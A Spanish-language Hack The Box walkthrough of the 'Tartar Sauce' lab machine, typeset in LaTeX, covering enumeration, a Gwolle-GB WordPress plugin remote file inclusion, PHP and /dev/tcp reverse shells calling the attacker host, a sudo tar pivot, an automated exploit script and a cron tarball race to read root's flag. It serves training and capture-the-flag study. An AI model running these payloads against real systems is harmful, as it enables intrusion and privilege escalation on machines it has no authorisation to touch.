
\includegraphics[width=0.9\linewidth]{images/minion-pwned} \caption{minion remmina pwned}\label{fig:unnamed-chunk-23}
\end{figure}

\hypertarget{tartar-sauce}{%
\chapter*{Tartar Sauce}\label{tartar-sauce}}
\addcontentsline{toc}{chapter}{Tartar Sauce}

\hypertarget{introduccion-11}{%
\section*{Introduccion}\label{introduccion-11}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 04/08/2021 se llama Tartar Sauce
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=5Sm69L3zdqM}{\includegraphics{https://img.youtube.com/vi/5Sm69L3zdqM/0.jpg}}

No olvideis dejar un like al video y un comentario\ldots{}

\hypertarget{enumeracion-11}{%
\section*{Enumeracion}\label{enumeracion-11}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-11}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-11}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-11}{%
\subsubsection*{Ping}\label{ping-11}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.88}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux.
Recordar que en cuanto a ttl se trata 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-11}{%
\subsubsection*{Nmap}\label{nmap-11}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.88 }
\end{Highlighting}
\end{Shaded}

Si consideras que va muy lento, puedes utilizar los siguientes parametros para que
tu escaneo sea mucho mas rapido

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.88 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80 10.10.10.88 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web, fuzzing, robots.txt &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analizando-la-web-4}{%
\subsection*{Analizando la web}\label{analizando-la-web-4}}
\addcontentsline{toc}{subsection}{Analizando la web}

\hypertarget{whatweb-7}{%
\subsubsection*{Whatweb}\label{whatweb-7}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.88}
\end{Highlighting}
\end{Shaded}

Nada muy interesante

\hypertarget{http-enum-4}{%
\subsubsection*{http-enum}\label{http-enum-4}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.88 -oN webScan}
\end{Highlighting}
\end{Shaded}

No nos detecta nada

\hypertarget{chequear-la-web-por-puerto-80-1}{%
\subsubsection*{Chequear la web por puerto 80}\label{chequear-la-web-por-puerto-80-1}}
\addcontentsline{toc}{subsubsection}{Chequear la web por puerto 80}

Con firefox navegamos en la web para ver lo que es.

Nada interesante aqui.

Miramos lo que hay en el \texttt{robots.txt} que nmap nos a encontrado. En el \texttt{robots.txt} vemos rutas que son \textbf{disallow}.

\begin{itemize}
\tightlist
\item
  \textbf{/webservices/tar/tar/source/}
\item
  \textbf{/webservices/monstra-3.0.4/}
\item
  \textbf{/webservices/easy-file-uploader/}
\item
  \textbf{/webservices/phpmyadmin}
\end{itemize}

Quitando partes de las rutas disalloweadas, vemos que la routa \texttt{http://10.10.10.88/webservices} esta forbidden y no estan Not Found como cuando
le ponemos la ruta completa. Esto quiere decir que esta ruta existe y que puede existir otros recursos debajo de ella. Vamos a Fuzzear este directorio.

\hypertarget{fuzzing-con-wfuzz-3}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-3}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.88/webservices/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos un ruta \texttt{/webservices/wp/}. Lo chequeamos en firefox.

\hypertarget{checkeamos-la-ruta-webservicewp}{%
\subsubsection*{Checkeamos la ruta webservice/wp}\label{checkeamos-la-ruta-webservicewp}}
\addcontentsline{toc}{subsubsection}{Checkeamos la ruta webservice/wp}

Analizando vemos

\begin{itemize}
\tightlist
\item
  La pagina no se ve bien
\item
  Wapalizer nos dice que es un wordpress
\item
  En el codigo fuente vemos un tartartsauce.htb
\end{itemize}

Como se aplica virtualhost routing, añadimos el dominio \texttt{tartartsauce.htb} al \texttt{/etc/hosts}

Ya se ve la web mejor y podemos mirar la web por \texttt{http://tartartsauce.htb/webservices/wp/}

\hypertarget{evaluacion-de-vulnerabilidades-11}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-11}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{buscando-vulnerabilidades}{%
\subsection*{Buscando vulnerabilidades}\label{buscando-vulnerabilidades}}
\addcontentsline{toc}{subsection}{Buscando vulnerabilidades}

Muchas vulnerabilidades en Wordpress se encuentran buscando los plugins instalados. Para enumerar los plugins instalados
en wordpress, se puede fuzzear la web con el uso de un diccionario especial de SecList.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/danielmiessler/SecLists}
\BuiltInTok{cd}\NormalTok{ SecLists}
\BuiltInTok{cd}\NormalTok{ Discovery/Web-Content/CMS/}
\end{Highlighting}
\end{Shaded}

Con \textbf{WFUZZ} utilizamos el diccionario de SecList llamado \texttt{wp-plugins.fuzz.txt}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos un plugin que se llama \texttt{gwolle-gb}

Por la web intentamos ver \texttt{http://tartartsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/} y no se ve nada. Pero como no nos
da un NotFound quiere decir que existe. Vamos buscando a ver si encontramos un exploit para este plugin

\hypertarget{buscando-un-exploit-con-searchsploit}{%
\subsection*{Buscando un exploit con searchsploit}\label{buscando-un-exploit-con-searchsploit}}
\addcontentsline{toc}{subsection}{Buscando un exploit con searchsploit}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ gwolle}
\end{Highlighting}
\end{Shaded}

Aqui vemos que existe un exploit para Gwolle que no permitte hacer Remote File Inclusion. Analizamos el exploit para saber lo que se puede hacer.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -x 38861}
\end{Highlighting}
\end{Shaded}

Podemos ver que un parametro GET llamado \textbf{abspath} que no esta sanitizado correctamente antes de estar utilizado por la funcion require de PHP.
Un atacante podria incluir de manera remota un fichero llamado \texttt{wp-load.php} para ejecutar su contenido en la web vulnerable. Ademas el exploit
nos muestra sobre que ruta tendriamos que ejecutar un metodo get para ejecutar el comando

\texttt{http://{[}host{]}/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://{[}hackers\_website{]}}

La idea aqui seria de comprobar si esto es verdad.

\hypertarget{comprobamos-la-efectividad-del-exploit}{%
\subsection*{Comprobamos la efectividad del exploit}\label{comprobamos-la-efectividad-del-exploit}}
\addcontentsline{toc}{subsection}{Comprobamos la efectividad del exploit}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Montamos un servidor web en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos una peticion GET sobre el url que el exploit nos da

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui podemos comprobar que la maquina victima no esta enviando una peticion get a nuestro servidor web creado en python. A demas se puede ver que
la maquina victima esta intentando buscar un fichero \texttt{wp-load.php} que por el momento no existe.

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-11}{%
\section*{Explotacion de vulnerabilidad \& Ganando Acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-11}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando Acceso}

\hypertarget{entablar-una-reverse-shell-desde-la-vulnerabilidad-gwolle}{%
\subsection*{Entablar una reverse shell desde la vulnerabilidad Gwolle}\label{entablar-una-reverse-shell-desde-la-vulnerabilidad-gwolle}}
\addcontentsline{toc}{subsection}{Entablar una reverse shell desde la vulnerabilidad Gwolle}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos el fichero \texttt{wp-load.php} que contiene

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
\FunctionTok{system}\OtherTok{(}\StringTok{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"}\OtherTok{);}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\item
  Montamos un servidor web desde la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server}
\end{Highlighting}
\end{Shaded}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos la peticion get con curl

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya podemos comprobar que estamos dentro de la maquina

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}

\ExtensionTok{www-data}

\ExtensionTok{hostname-I}
\CommentTok{#Output}

\ExtensionTok{10.10.10.88}
\end{Highlighting}
\end{Shaded}

\hypertarget{tratamiento-de-la-tty-8}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-8}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{analizamos-la-maquina}{%
\subsection*{Analizamos la maquina}\label{analizamos-la-maquina}}
\addcontentsline{toc}{subsection}{Analizamos la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ /onuma}

\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\CommentTok{#Output}

\KeywordTok{(}\ExtensionTok{onuma}\KeywordTok{)} \ExtensionTok{NOPASSWD}\NormalTok{: /bin/tar}
\end{Highlighting}
\end{Shaded}

Aqui vemos que hay un usuario onuma en el directorio home pero no tenemos capacidad de acceso. Tambien vemos que podemos usar
el comando tar como el usuario \textbf{onuma} sin proporcionar contraseña.

\hypertarget{user-pivoting-al-usuario-onuma}{%
\subsection*{User Pivoting al usuario onuma}\label{user-pivoting-al-usuario-onuma}}
\addcontentsline{toc}{subsection}{User Pivoting al usuario onuma}

Como es posible utilizar el comando tar como el usuario onuma sin propocionar contraseña, vamos a la pagina \href{https://gtfobins.github.io/}{GTFOBINS} y buscamos
una manera de entablarnos una shell como el usuario onuma

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash}
\FunctionTok{whoami}
\CommentTok{#Output}

\ExtensionTok{onuma}
\end{Highlighting}
\end{Shaded}

Aqui ya podemos ver la flag.

\hypertarget{automatizamos-el-acceso-en-bash}{%
\subsection*{Automatizamos el acceso en bash}\label{automatizamos-el-acceso-en-bash}}
\addcontentsline{toc}{subsection}{Automatizamos el acceso en bash}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\KeywordTok{function}\FunctionTok{ ctrl_c()}\KeywordTok{\{}
    \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n\textbackslash{}n[!] Saliendo ...\textbackslash{}n"}
    \BuiltInTok{exit}\NormalTok{ 1}
\KeywordTok{\}}

\CommentTok{# Ctrl+C}
\BuiltInTok{trap}\NormalTok{ ctrl_c INT}

\CommentTok{# ./exploit.sh -u www-data/onuma}

\KeywordTok{function}\FunctionTok{ helpPanel()}\KeywordTok{\{}
    \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n[!] Uso: }\VariableTok{$0}\StringTok{ -u www-data/onuma\textbackslash{}n"}
    \BuiltInTok{exit}\NormalTok{ 1}
\KeywordTok{\}}

\KeywordTok{function}\FunctionTok{ makeWWWDataFile()}\KeywordTok{\{}
\FunctionTok{cat} \OperatorTok{<< EOF} \OperatorTok{>} \ExtensionTok{wp-load.php}
\NormalTok{<?}\OperatorTok{p}\ExtensionTok{hp}
\NormalTok{    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");}
\NormalTok{?>}
\NormalTok{EOF}
\NormalTok{\}}

\NormalTok{function makeOnumaFile()\{}
\NormalTok{cat << EOF > wp-load.}\OperatorTok{p}\ExtensionTok{hp}
\NormalTok{<?}\OperatorTok{p}\ExtensionTok{hp}
\NormalTok{    system("echo '#!/bin/bash\textbackslash{}n\textbackslash{}nbash -i >& /dev/tcp/10.10.14.8/443 0>&1' > /dev/shm/s4vishell.sh");}
\NormalTok{    system("sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=\textbackslash{}"bash /dev/shm/s4vishell.sh\textbackslash{}"");}
\NormalTok{?>}
\NormalTok{EOF}
\NormalTok{\}}

\NormalTok{function makeRequest()\{}
\NormalTok{    if [ "}\VariableTok{$(}\BuiltInTok{echo} \VariableTok{$username)}\NormalTok{" == "www-data" ]; then}
\NormalTok{        makeWWWDataFile}
        \OperatorTok{p}\ExtensionTok{ython3}\NormalTok{ -m http.server 80 }\OperatorTok{&>}\NormalTok{/dev/null }\KeywordTok{&}
\NormalTok{        curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"}
\NormalTok{        rm wp-load.php}
\NormalTok{        kill -9 }\VariableTok{$(}\ExtensionTok{lsof}\NormalTok{ -i:80 }\KeywordTok{|} \FunctionTok{grep} \StringTok{"python"} \KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $2\}'}\VariableTok{)}\NormalTok{ &>/dev/null}
\NormalTok{    elif [ "}\VariableTok{$(}\BuiltInTok{echo} \VariableTok{$username)}\NormalTok{" == "onuma" ]; then}
\NormalTok{        makeOnumaFile}
\NormalTok{        python3 -m http.server 80 &>/dev/null &}
\NormalTok{        curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"}
\NormalTok{        rm wp-load.php}
\NormalTok{        kill -9 }\VariableTok{$(}\ExtensionTok{lsof}\NormalTok{ -i:80 }\KeywordTok{|} \FunctionTok{grep} \StringTok{"python"} \KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $2\}'}\VariableTok{)}\NormalTok{ &>/dev/null}
\NormalTok{    else}
\NormalTok{        echo -e "\textbackslash{}n[!] El usuario es inválido\textbackslash{}n"}
\NormalTok{        exit 1}
\NormalTok{    fi}
\NormalTok{\}}

\NormalTok{declare -i parameter_counter=0; while getopts ":u:h:" arg; do}
\NormalTok{    case }\VariableTok{$arg}\NormalTok{ in}
\NormalTok{        u) username=}\VariableTok{$OPTARG}\NormalTok{; let parameter_counter+=1;;}
\NormalTok{        h) helpPanel;;}
\NormalTok{    esac}
\NormalTok{done}

\NormalTok{if [ }\VariableTok{$parameter_counter}\NormalTok{ -eq 0 ]; then}
\NormalTok{    helpPanel}
\NormalTok{else}
\NormalTok{    makeRequest}
\NormalTok{fi}
\end{Highlighting}
\end{Shaded}

Para usar este script, nos tenemos previamente que poner en escucha por el puerto 443 y con otra shell, usar el exploit:

\begin{itemize}
\item
  para acceder a la maquina como el usuario www-data

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./exploitTheThing.sh}\NormalTok{ -u www-data}
\end{Highlighting}
\end{Shaded}
\item
  para acceder a la maquina como el usuario onuma

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./exploitTheThing.sh}\NormalTok{ -u onuma}
\end{Highlighting}
\end{Shaded}
\end{itemize}

\hypertarget{escalada-de-privilegios-10}{%
\section*{Escalada de privilegios}\label{escalada-de-privilegios-10}}
\addcontentsline{toc}{section}{Escalada de privilegios}

\hypertarget{rootear-la-maquina-7}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-7}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /root}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Aqui vemos que no podemos hacer nada y que no tenemos posiblidad de rootear la maquina por vulnerabilidades del propio usuario.
Tenemos que enumerar el sistema.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{uname}\NormalTok{ -a}
\ExtensionTok{lsb_release}\NormalTok{ -a}
\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{cat}\NormalTok{ /etc/cron}
\ExtensionTok{crontab}\NormalTok{ -l}
\FunctionTok{ls}\NormalTok{ /var/spool/cron/}
\FunctionTok{ls}\NormalTok{ /var/spool/cron/ -l}
\end{Highlighting}
\end{Shaded}

Bueno aqui no se ve nada, no tenemos permisos SUID no hay nada vemos tareas cron. Pero siempre se puede ver de forma alternativa si hay tareas
que se ejecutan a intervalo regular de tiempo.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /dev/shm}
\FunctionTok{touch}\NormalTok{ procmon.sh}
\FunctionTok{chmod}\NormalTok{ +x procmon.sh}
\FunctionTok{nano}\NormalTok{ procmon.sh}
\end{Highlighting}
\end{Shaded}

Aqui nos creamos el script que nos servira de monitoreo de procesos.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\VariableTok{old_process=$(}\FunctionTok{ps}\NormalTok{ -eo command}\VariableTok{)}

\KeywordTok{while} \FunctionTok{true}\KeywordTok{;} \KeywordTok{do}
    \VariableTok{new_process=$(}\FunctionTok{ps}\NormalTok{ -eo command}\VariableTok{)}
    \FunctionTok{diff} \OperatorTok{<(}\BuiltInTok{echo} \StringTok{"}\VariableTok{$old_process}\StringTok{"}\OperatorTok{)} \OperatorTok{<(}\BuiltInTok{echo} \StringTok{"}\VariableTok{$new_process}\StringTok{"}\OperatorTok{)} \KeywordTok{|} \FunctionTok{grep} \StringTok{"[\textbackslash{}>\textbackslash{}<]"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v -E }\StringTok{"procmon|command"}
    \VariableTok{old_process=$new_process}
\KeywordTok{done}
\end{Highlighting}
\end{Shaded}

Ya podemos ver que hay una tarea \texttt{/bin/bash\ /usr/sbin/backuperer} que se ejecuta a intervalos regulares de tiempo. lo Analizamos.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ /usr/sbin/backuperer}
\end{Highlighting}
\end{Shaded}

Aqui vemos un script que:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  supprime ficheros \texttt{/var/tmp/.*}
\item
  supprime el directorio \texttt{/var/tmp/check}
\item
  comprime todo lo que hay en \texttt{/var/www/html} como un fichero \texttt{/var/tmp/.\textless{}hash\textgreater{}}
\item
  sleep 30
\item
  crea un directorio \texttt{/var/tmp/check}
\item
  descomprime \texttt{/var/tmp/.\textless{}hash\textgreater{}} en \texttt{/var/tmp/check}
\item
  controla si hay una differencia entre el contenido del hash y \texttt{/var/www/html}
\item
  si hay differencias, reporta los cambios en el fichero \texttt{/var/backup/onuma\_backup\_error.txt}
\end{enumerate}

La vulnerabilidad de este script reside en el sleep de 30 secundos que nos permitiria borrar el fichero comprimido \texttt{.\textless{}hash\textgreater{}} y meter
otro comprimido. Como suponemos que es \textbf{root} que ejecuta la tarea, podemos aprovechar de esto para ver la flag de root.

\hypertarget{modificacion-del-comprimido}{%
\subsubsection*{Modificacion del comprimido}\label{modificacion-del-comprimido}}
\addcontentsline{toc}{subsubsection}{Modificacion del comprimido}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un comprimido de \texttt{/var/www/html}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /dev/shm}
\FunctionTok{tar}\NormalTok{ -zcvf comprimido.tar /var/www/html}
\end{Highlighting}
\end{Shaded}
\item
  Preparamos en la maquina de atacante para recibir el comprimido

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ comprimido.tar}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos el comprimido desde la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.8 443 }\OperatorTok{<}\NormalTok{ comprimido.tar}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ahora que tenemos el comprimido en la maquina de atacante, vamos a cambiar su contenido

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  descomprimimos el ficher \texttt{.tar}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{tar}\NormalTok{ -xf comprimido.tar}
\end{Highlighting}
\end{Shaded}
\item
  Modificamos el ficher \texttt{index.html}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ var/www/html}
\FunctionTok{rm}\NormalTok{ index.html}
\FunctionTok{ln}\NormalTok{ -s -f /root/root.txt index.html}
\end{Highlighting}
\end{Shaded}
\item
  creamos un nuevo comprimido

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ ../../..}
\FunctionTok{tar}\NormalTok{ -zcvf comprimido.tar var/www/html}
\end{Highlighting}
\end{Shaded}
\item
  enviamos el comprimido a la maquina victima

  \begin{itemize}
  \item
    en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ http://10.10.14.8/comprimido.tar}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  creamos un script para ejecutar el secuestro

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{touch}\NormalTok{ tehijackeolavida.sh}
\FunctionTok{chmod}\NormalTok{ +x tehijackeolavida.sh}
\FunctionTok{nano}\NormalTok{ tehijackeolavida.sh}
\end{Highlighting}
\end{Shaded}

  que contiene

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\KeywordTok{while} \FunctionTok{true}\KeywordTok{;} \KeywordTok{do}
    \VariableTok{filename=$(}\FunctionTok{ls}\NormalTok{ -ls /var/tmp/ }\KeywordTok{|} \FunctionTok{awk} \StringTok{'NF\{print $NF\}'} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'^\textbackslash{}..*[a-f0-9]'}\VariableTok{)}

    \KeywordTok{if}\BuiltInTok{ [} \VariableTok{$filename}\BuiltInTok{ ]}\NormalTok{; }\KeywordTok{then}
        \ExtensionTok{ehco}\NormalTok{ -e }\StringTok{"\textbackslash{}n[+] El nombre de archivo es }\VariableTok{$filename}\StringTok{\textbackslash{}n"}
        \FunctionTok{rm}\NormalTok{ /var/tmp/}\VariableTok{$filename}
        \FunctionTok{cp}\NormalTok{ comprimido.tar /var/tmp/}\VariableTok{$filename}
        \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n[+] Archivo hijiackeado con exito\textbackslash{}n"}
        \BuiltInTok{exit}\NormalTok{ 0}
\KeywordTok{done}
\end{Highlighting}
\end{Shaded}
\item
  Ejecutamos el script

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./tehijackeolavida.sh}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Cuando la pantalla nos muestre el mensaje \texttt{{[}+{]}\ Archivo\ hijackeado\ con\ exito}, podemos mirar el fichero \texttt{/var/backup/onuma\_backup\_error.txt}
y 30 segundos mas tarde tendriamos que ver la flag.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{while} \FunctionTok{true}\KeywordTok{;} \KeywordTok{do} \FunctionTok{cat}\NormalTok{ /var/backup/onuma_backup_error.txt }\KeywordTok{;} \FunctionTok{sleep}\NormalTok{ 1}\KeywordTok{;} \FunctionTok{clear}\KeywordTok{;} \KeywordTok{done}
\end{Highlighting}
\end{Shaded}

Ya podemos ver la flag.

\hypertarget{rootear-la-maquina-de-verdad}{%
